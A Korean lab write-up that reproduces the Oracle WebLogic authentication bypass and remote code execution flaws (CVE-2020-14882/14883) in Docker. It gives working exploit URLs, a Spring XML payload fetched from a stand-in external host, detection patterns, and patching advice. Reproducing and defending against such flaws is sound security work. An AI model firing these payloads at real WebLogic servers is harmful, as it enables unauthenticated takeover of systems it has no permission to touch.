


# Weblogic 인증 우회 및 RCE 취약점(CVE-2020-14882, CVE-2020-14883)
Oracle WebLogic Server는 기업 Java 애플리케이션, 온프레미스 또는 클라우드를 개발하고 배포하기 위한 확장 가능한 통합 플랫폼이다.


## 1. 취약점 요약

### 1.1 영향받는 버전
- Oracle WebLogic Server 10.3.6.0
- Oracle WebLogic Server 12.1.3.0
- Oracle WebLogic Server 12.2.1.0 ~ 12.2.1.4

### 1.2 취약점 설명
CVE-2020-14882는 원격 공격자가 관리자 콘솔 구성 요소에 대한 인증을 우회할 수 있게 하며, CVE-2020-14883와 함께 사용될 경우 인증 없이 임의의 명령을 실행할 수 있게 한다.


## 2. 환경 구성
다음 명령어를 실행하여 WebLogic 서버 12.2.1.3을 구동한다.

```
docker compose up -d
```

컨테이너가 실행되면 http://your-ip:7001/console 에서 관리자 콘솔 로그인 페이지를 확인한다.


## 3. 취약 조건

### 3.1 공격 성립 조건

✓ WebLogic Server 버전: 10.3.6.0, 12.1.3.0, 12.2.1.0~12.2.1.4  
✓ 관리 콘솔 포트(기본 7001)가 네트워크에 노출된 상태  

위 조건이 충족되면 콘솔의 `/console/css/...` 정적 리소스 경로가 인증 없이 접근 가능하고, 이를 통해 우회 접근한 콘솔에서 해당 버전에 기본 내장된 MVEL 표현식 핸들러(`com.tangosol.coherence.mvel2.sh.ShellSession`)를 호출해 임의 명령을 실행할 수 있다.

### 3.2 공격 벡터 상세

**1단계: 인증 우회(CVE-2020-14882)**
```
GET /console/css/%252e%252e%252fconsole.portal
    ↓
    %252e = %2e (URL 인코딩된 점)
    %2e = . (경로 구분자)
    %252e%252e%252f = ../../ (디렉토리 탈출)
    ↓
로그인 페이지를 우회하고 직접 콘솔에 접근
```

**2단계: 원격 코드 실행(CVE-2020-14883)**
```
MVEL 표현식 인젝션 → java.lang.Runtime.exec() 호출
    ↓
임의의 시스템 명령 실행
```


## 4. 재현 절차

### 4.1 인증 우회 확인 (CVE-2020-14882)

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```



로그인 절차 없이 관리자 콘솔에 접근한 것을 확인할 수 있다.

### 4.2 원격 코드 실행 (CVE-2020-14883)

#### 1) Shell 방식

다음과 같이 URL에 명령을 삽입하면 WebLogic 서버에서 해당 명령이 실행된다.

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

#### 2) Remote XML 방식
10.3.6 버전에는 해당 클래스가 존재하지 않아 1)의 방법을 사용할 수 없다. 따라서 FileSystemXmlApplicationContext를 이용해 조작된 XML 파일(예: http://example.com/rce.xml)을 외부에 호스팅하고, 이를 WebLogic이 불러오도록 해야 한다. 이는 모든 WebLogic 버전에서 사용 가능하다.

다음과 같이 `ProcessBuilder` 빈(bean)을 정의한 스프링 XML 파일을 작성하여 외부 서버에 호스팅한다.

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

공격자가 다음 URL을 요청하면 WebLogic은 해당 XML 파일을 로드하여 그 안에 정의된 명령을 실행한다.

이 방식의 제약 사항은 WebLogic 서버가 외부에 있는 악성 XML 파일에 접근 가능한 네트워크 환경이어야 한다는 점이다.

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```


## 5. 실행 결과

### 5.1 Shell 방식 실행 결과

```bash
$ docker exec -it <container_id> ls /tmp/
```



도커 컨테이너 내의 /tmp 폴더에 ```success1``` 파일이 생긴 것을 알 수 있다.

### 5.2 취약점 영향
공격자는 인증 없이 WebLogic 관리자 권한을 획득할 수 있으며,
운영체제 명령 실행을 통해 웹쉘 설치, 악성코드 실행,
추가 시스템 침해, 내부망 확장 등의 공격을 수행할 수 있다.


## 6. 대응 방안

### 6.1 패치 적용 및 버전 업그레이드

Oracle Critical Patch Update(CPU)를 통해 배포된 패치를 최우선으로 적용한다.

| 현재 버전 | 업그레이드 버전 |
|---|---|
| 10.3.6.0 | 12.2.1.5.0 이상 |
| 12.1.3.0 | 12.2.1.5.0 이상 |
| 12.2.1.0 ~ 12.2.1.4 | 12.2.1.5.0 이상 |
| 모든 버전 | 14.1.2.0 이상 (최신 안정 버전) |

### 6.2 관리 콘솔 네트워크 접근 통제
- 관리 콘솔(기본 7001 포트)을 외부 인터넷에 노출하지 않는다.
- 접근이 필요한 경우 VPN 등 내부 네트워크를 통해서만 허용한다.
- 방화벽에서 `/console` 및 `/console/css/*` 경로에 대한 외부 접근을 차단한다.
- 패치 적용이 지연되는 경우 임시 조치로 `console.portal` 자체를 비활성화하는 것도 고려한다.

### 6.3 로그 모니터링 및 탐지
- 웹 액세스 로그에서 `%252e`, `console/css/`, `handle=` 등이 포함된 비정상 요청 탐지
- WebLogic 프로세스에서 `bash`, `wget`, `curl`, `touch` 등 예상치 못한 하위 프로세스 실행 여부 모니터링
- `/tmp` 등 임시 디렉터리에 생성된 미상 파일, 웹쉘 의심 파일 점검
